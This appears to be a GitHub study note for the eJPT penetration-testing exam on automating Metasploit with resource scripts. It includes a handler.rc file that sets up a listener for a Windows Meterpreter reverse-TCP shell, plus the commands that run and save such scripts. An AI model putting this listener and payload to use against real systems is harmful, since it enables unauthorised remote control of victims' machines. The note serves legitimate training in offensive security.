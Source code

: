 ## Automate Metasploit with resource script

[eJPT - Exam Notes Index](https://github.com/sedici-gith/eJPT/tree/main)
```
ls -la usr/share/metasploit-framework/scripts/resource
```
This is the folder containing all the resource scripts already available for Metasploit.

### handler.rc
```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST 10.10.10.1
set LPORT 1234
run
```
Insert all these commands into the file and then execute it in the terminal to run Metasploit and execute the commands.
```
msfconsole -r handler.rc
```
On the other hand, we can execute it in msfconsole.
```
resource /Desktop/handler.rc
```
We can also save all the command just used in a file with this.
```
makerc /Desktop/portscan.rc
```
